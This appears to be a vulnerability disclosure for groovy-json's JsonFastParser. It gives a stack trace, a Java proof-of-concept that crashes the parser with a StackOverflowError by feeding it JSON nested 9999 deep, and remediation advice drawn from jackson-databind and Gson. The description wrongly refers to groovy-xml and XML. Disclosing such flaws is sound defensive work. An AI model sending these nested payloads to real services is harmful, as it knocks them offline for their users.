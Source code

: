 ## StackOverflowError caused by groovy-json parsing of untrusted JSON String
### Description
---
Using groovy-xml to parse untrusted XML String may be vulnerable to denial of service (DOS) attacks. If the parser is running on user supplied input, an attacker may supply content that causes the parser to crash by stackoverflow.

### Error Log
---
        Exception in thread "main" java.lang.StackOverflowError
            at org.apache.groovy.json.internal.JsonFastParser.decodeJsonArrayOverlay(JsonFastParser.java:252)
            at org.apache.groovy.json.internal.JsonFastParser.decodeValueOverlay(JsonFastParser.java:132)
            at org.apache.groovy.json.internal.JsonFastParser.decodeJsonArrayOverlay(JsonFastParser.java:282)
            at org.apache.groovy.json.internal.JsonFastParser.decodeValueOverlay(JsonFastParser.java:132)
            at org.apache.groovy.json.internal.JsonFastParser.decodeJsonArrayOverlay(JsonFastParser.java:282)
            at org.apache.groovy.json.internal.JsonFastParser.decodeValueOverlay(JsonFastParser.java:132)
            at org.apache.groovy.json.internal.JsonFastParser.decodeJsonArrayOverlay(JsonFastParser.java:282)
            ...
            at org.apache.groovy.json.internal.JsonFastParser.decodeValueOverlay(JsonFastParser.java:132)

### PoC
---
import groovy.json.JsonParser;
import org.apache.groovy.json.internal.JsonFastParser;

        public class ApacheGroovyJsonTest {

            public final static int TOO_DEEP_NESTING = 9999;
            public final static String TOO_DEEP_DOC = _nestedDoc(TOO_DEEP_NESTING, "[ ", "] ", "0");


            public static String _nestedDoc(int nesting, String open, String close, String content) {
                StringBuilder sb = new StringBuilder(nesting * (open.length() + close.length()));
                for (int i = 0; i < nesting; ++i) {
                    sb.append(open);
                    if ((i & 31) == 0) {
                        sb.append("\n");
                    }
                }
                sb.append("\n").append(content).append("\n");
                for (int i = 0; i < nesting; ++i) {
                    sb.append(close);
                    if ((i & 31) == 0) {
                        sb.append("\n");
                    }
                }
                return sb.toString();
            }

            public static void main(String[] args) {
                JsonParser jsonParser = new JsonFastParser();
                jsonParser.parse(TOO_DEEP_DOC);
            }
        }

        
### Rectification Solution
---
1.Refer to the solution of jackson-databind: Add the depth variable to record the current parsing depth. If the parsing depth exceeds a certain threshold, an exception is thrown. ([FasterXML/jackson-databind@fcfc499](https://github.com/FasterXML/jackson-databind/commit/fcfc4998ec23f0b1f7f8a9521c2b317b6c25892b))

2.Refer to the GSON solution: Change the recursive processing on deeply nested arrays or JSON objects to stack+iteration processing.([google/gson@2d01d6a20f39881c692977564c1ea591d9f39027](https://github.com/google/gson/commit/2d01d6a20f39881c692977564c1ea591d9f39027%EF%BC%89))
